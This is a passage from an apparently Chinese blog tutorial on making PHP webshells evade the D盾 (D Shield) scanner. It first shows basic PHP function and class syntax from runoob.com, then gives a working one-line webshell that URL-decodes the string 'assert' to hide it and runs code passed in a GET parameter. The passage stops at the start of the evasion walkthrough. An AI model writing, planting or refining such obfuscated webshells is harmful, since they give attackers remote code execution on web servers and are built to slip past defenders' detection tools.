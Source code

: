 ### 如何自定义函数

[https://www.runoob.com/php/php-functions.html](https:_www.runoob.com_php_php-functions)

```
<?php
function functionName()
{
    // 要执行的代码
}
?>
```

### 如何自定义类

[https://www.runoob.com/php/php-oop.html](https:_www.runoob.com_php_php-oop)

```
PHP 定义类通常语法格式如下：
<?php
class phpClass {
  var $var1;
  var $var2 = "constant string";
  
  function myfunc ($arg1, $arg2) {
     [..]
  }
  [..]
}
?>
解析如下：
类使用 class 关键字后加上类名定义。
类名后的一对大括号({})内可以定义变量和方法。
类的变量使用 var 来声明, 变量也可以初始化值。
函数定义类似 PHP 函数的定义，但函数只能通过该类及其实例化的对象访问。
```

## 免杀套路

一般的变形对于D盾根本不起作用，被杀的妈都不认，这也是为什么D盾在webshell查杀领域比较具有权威性。

### 常规套路

首先选择一个幸运儿函数，没错，我还选的是urldecode()(将字符串URL解码)

选择我们的免杀原型``

这里假设我以前从来不知道D盾这个玩意

首先从零开始进行一些简单的尝试

```
<?php
$a=urldecode('%61%73%73%65%72%74');  //assert
$a($_GET['yzddmr6']);
?>
```
